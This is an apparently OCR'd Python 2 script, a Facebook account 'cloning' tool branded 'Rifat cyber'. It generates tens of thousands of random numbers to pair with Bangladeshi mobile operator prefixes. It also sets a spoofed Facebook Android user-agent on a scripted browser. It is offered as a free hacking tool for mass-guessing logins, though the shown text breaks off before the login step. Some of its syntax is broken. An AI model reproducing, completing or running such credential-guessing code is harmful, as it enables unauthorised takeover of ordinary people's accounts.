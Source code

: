 # MR-RIFAT
Rifat
import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')
 
def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)
 
os.system('clear')
print
 
print
 
print("""

\033[0;94m  .------..------..------..------..------.
\033[0;94m|R.--. ||I.--. ||F.--. ||A.--. ||T.--. |
\033[0;96m| :(): || (\/) || :(): || (\/) || :/\: |
\033[0;96m | ()() || :\/: || ()() || :\/: || (__) |
\033[0;96m| '--'R|| '--'I|| '--'F|| '--'A|| '--'T|
 \033[0;96m`------'`------'`------'`------'`------'

print("\033[0;91mThis Tool's Free By Rifat cyber")

psb('\x1b[1;92mBANGLADESH 6 DIGIT CLONING START PLEASE WAIT .....')
for n in range(90000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()
 
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
 
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 C')
 
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
os.system('clear')
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [
 ('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]
 
def exb():
    print
    os.sys.exit()
 
 
def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)
 
 
def t():
    time.sleep(1)
 
 
def cb():
    os.system('clear')
 
logo = """
                                                                      
\033[0;94m   _    _                      
\033[0;94m   | |  | | 
\033[0;96m   | |__| | ___ _ __ ___  _ __
\033[0;96m   |  __  |/ _ \ '__/ _ \| '_ \ 
\033[0;96m   | |  | |  __/ | | (_) | | | |   
 \033[0;96m  |_|  |_|\___|_|  \___/|_| |_|
"""

back = 0
successful = []
cpb = []
oks = []
id = []
 
def menu():
    os.system('clear')
    print logo
    print ''
    print '\033[0;93mAUTHOR   : Rifat cyber'
    print '\033[0;94mFACEBOOK : Termux hacker Rifat'
    print '\033[0;96mGITHUB   : Hacker Rifat'
    print ''
    print '\033[0;90mONLY BANGLADESHI ACCOUNTS ARE AVAILABLE'
    print '\033[0;91m'
    print 50* '-'
    print '\033[0;92m[1]  \x1b[1;93mGP'
    print '\033[0;95m[2]  \x1b[1;95mRobi'
    print '\033[0;94m[3]  \x1b[1;94mAirtel'
    print '\033[0;92m[4]  \x1b[1;92mBanglalink'
    print '\033[0;96m[5]  \x1b[1;96mTeletalk'
    print '\033[0;90m[0]  \x1b[1;90mExit            '
    print '\033[0;91m'
    print 50 * '-'
    action()
 
 
def action():
    global cpb
    global oks
    bch = raw_input('\033[0;93m\n> ')
    if bch == '':
        print
        action()
    elif bch == '1':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '170,171, 172, 173, 174, 175, 176, 177, 178, 179,130,131, 132, 133, 134, 135, 136, 137, 138, 139'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '2':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '180,181, 182, 183, 184, 185, 186, 187, 188, 189'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '3':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '160,161, 162, 163, 164, 165, 166, 167, 168, 169'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '4':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '190,191, 192, 193, 194, 195, 196, 197, 198, 199,140,141, 142, 143, 144, 145, 146, 147, 148, 149'
        print''
        try:
            c
